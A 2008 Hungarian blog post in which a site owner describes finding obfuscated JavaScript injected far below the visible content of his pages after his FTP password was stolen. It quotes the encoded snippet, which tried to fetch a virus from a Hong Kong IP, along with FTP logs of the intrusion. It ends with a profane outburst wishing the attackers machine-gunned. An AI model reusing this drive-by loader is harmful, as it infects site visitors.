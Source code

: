 ```yaml
---
title: "shapgvba ejtf(c){..."
slug: 'shapgvba-ejtfc'
date: "2008-02-05"
tags: 
  - "geekség"
  - "gekko"
  - "hack"
  - "virus"
  - "zsonglőrködés"
---
```


Amikor a pokol elszabadul.

Rémálom baszki.

Gondos házigazda lévén, rendszeresen nézegetem az oldalaimat, hogy minden rendben van-e, nem kell-e valami hozzászólást kimoderálni stb. Vasárnap feltűnt valami kis apróság. A böngészőm a csokavar.hu főoldalán valami ismeretlen add-in-t akart futtatni. Márpedig én ilyet nem írtam sehova. Aztán nézem a forrást, és 500-600 üres sorral a fájl általam gondolt vége után találtam egy ilyet:

<script language=JavaScript>var sf=" shapgvba cwzgq(d){ine xp,yfl="r|b'RhkB\_98\[5)XsvAPClwHix.e,2o:$uyT^&Vqa36Nd=-Z\\"{\`z\]m@GS;UIc# 0}jWMt1pf7~(n4O\*+g!",xn="",c,wah,xs="",pr;sbe(xp=0;xp<d.yratgu;xp++){ c=d.puneNg(xp);wah=yfl.vaqrkBs(c);vs(wah>-1){ pr=((wah+1)%81-1);vs(pr<=0)pr+=81;xs+=yfl.puneNg(pr-1); } ryfr xs+=c;}xn+=xs;qbphzrag.jevgr(xn);}",aarf="";for(nyf=0;nyf<sf.length;nyf++){ cqd = sf.charCodeAt(nyf);if((cqd>64 && cqd<78)||(cqd>96 && cqd<110)) cqd=cqd+13;else if((cqd>77 && cqd<91)||(cqd>109 && cqd<123))cqd=cqd-13;aarf=aarf.concat(String.fromCharCode(cqd));} var hw,u; eval( aarf );hw="<7s,N#!0G431x41|-{U4k47s,N#!{>0n'sx\]|3!rJ,N!|a0{<SPRdyF0G431x41|-\\{Z4k4Ss,N#!\\{0SRP-\\{l!!#$//JJJr1''1G|M434Gj!Gs7rs'\]/99x!!rU7?{tn'sx\]|3!r,|i|,,|,t{\\{><\\/SPRdyF>{0KH0</7s,N#!>0"; pjmtd(hw);</script>

Szoktam ronda kódot írni, de azért ez... 

Kiderült, hogy fenti szutyok valami Hong Kongi gépről (58.65.238.60) próbál egy vírust letölteni a látogató gépére.

Aztán elkezdtem a logokat böngészni, míg az FTP logban a következőre nem bukkantam:

Fri Feb 1 23:58:06 2008 \[pid 7784\] \[encse\] OK LOGIN: Client "58.65.238.59"

Fri Feb 1 23:58:12 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/www/index.php", 3904 bytes, 16.06Kbyte/sec

Fri Feb 1 23:58:14 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/www/index.php", 5498 bytes, 11.47Kbyte/sec

Fri Feb 1 23:58:16 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/gekko/index.php", 92 bytes, 0.39Kbyte/sec

Fri Feb 1 23:58:18 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/gekko/index.php", 1686 bytes, 3.49Kbyte/sec

Fri Feb 1 23:58:21 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/blog/index.php", 54 bytes, 0.23Kbyte/sec

Fri Feb 1 23:58:23 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/blog/index.php", 1648 bytes, 3.43Kbyte/sec

Fri Feb 1 23:58:26 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/zsonglor/index.php", 5645 bytes, 24.04Kbyte/sec

Fri Feb 1 23:58:28 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/zsonglor/index.php", 7239 bytes, 10.81Kbyte/sec

Fri Feb 1 23:58:31 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/zsonglor/siteswap/index.php", 7102 bytes, 16.60Kbyte/sec

Fri Feb 1 23:58:33 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/zsonglor/siteswap/index.php", 8696 bytes, 12.99Kbyte/sec

Ugyanaz a Hong Kongi IP, közvetlen a másik mellett.

Szóval valaki lenyúlta az FTP jelszavamat, és ahogy sejtem, arra használta fel, hogy ugyanezt a jelszólopó trójait terjessze az oldalaimon.

A neten találtam egy fórumot, ahol egy hasonló támadást elemeznek ([http://pouet.net/topic.php?which=5006&page=1](http://pouet.net/topic.php?which=5006&page=1)). Itt az 'én' scriptem egy másik mutációját elemzik. Szerintük az egész mögött a [Russian Business Network](http://en.wikipedia.org/wiki/Russian_Business_Network) áll, ami a wikipedia leírása alapján nagyjából a maffia. hátafaszom.

Tegnap jelszavakat váltogattam (bankos, céges, stb.  el lehet képzelni...) Ma meg egész nap a gépet pucolgattam, de ez tisztának tűnik. Azt gondolom, hogy az otthoni, régi gépemen lesz a trójai, de ez a hétvége előtt nem fog kiderülni.

És az egészben nem is az fáj, hogy engem meghackeltek, mert előfordul az ilyesmi. De a büdös kurva életbe már: a szájbavert zsonglőr oldalamra töltik fel az ótvar szutykukat, hogy az arra tévedő gyerekek gépére másszon fel az a szemét.

Én sose voltam a halálbüntetés ellen: le kéne géppuskázni az egész baszott bagást, úgy ahogy van, aztán nézegethetnek.
